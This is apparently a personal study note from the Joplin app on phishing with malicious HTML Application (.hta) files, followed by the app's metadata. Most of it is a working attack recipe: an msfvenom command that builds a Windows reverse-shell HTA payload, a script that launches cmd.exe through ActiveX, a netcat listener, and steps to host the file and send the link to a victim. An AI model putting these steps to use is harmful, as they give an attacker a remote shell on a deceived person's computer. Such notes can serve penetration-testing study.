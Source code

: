 HTML APPs (.hta)

Can use the setoolkit for Phishing deployment; Go Youtube

ActiveX Objects must be usable in the victim browser

> msfvenom -p windows/shell\_reverse\_tcp LHOST=&lt;kali ip&gt; LPORT=4444 -f hta-psh -o ./evil.hta
> 
> \# Paste this in the &lt;script&gt; tags
> 
> var c = 'cmd.exe';
> 
> new ActiveXObject('WScript.Shell').Run(c);
> 
> &lt;script&gt;self.close();&lt;/script&gt;

Variable names will have been randomized

Host the HTA app in a Webserver

Setup a Netcat Listener

> nc -nlvp 4444

Send the link to the victim to get him to download it

id: 96ad790d9c474b8eb811b50b79756a67
parent_id: 00b28c92e0a5415cbf7110cda063173b
created_time: 2022-01-26T15:37:56.921Z
updated_time: 2022-05-18T14:34:00.476Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-26T15:37:56.921Z
user_updated_time: 2022-05-18T14:34:00.476Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1